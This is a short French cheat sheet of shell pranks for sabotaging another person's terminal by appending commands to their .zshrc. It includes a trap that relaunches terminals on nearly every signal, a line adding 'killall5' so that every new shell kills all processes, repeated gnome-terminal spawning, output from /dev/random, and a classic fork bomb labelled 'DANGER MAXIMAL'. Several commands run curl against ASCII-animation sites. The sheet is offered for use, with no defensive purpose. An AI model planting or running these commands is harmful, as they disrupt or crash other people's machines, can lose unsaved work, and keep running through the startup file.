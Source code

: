 trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA /!\

```echo "killall5" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal" >> .zshrc && source .zshrc```


[-------------------------------------------------------------]
```echo "gnome-terminal && cat /dev/random" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal && curl parrot.live" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal && curl ASCII.live/can-you-hear-me" >> .zshrc && source .zshrc```
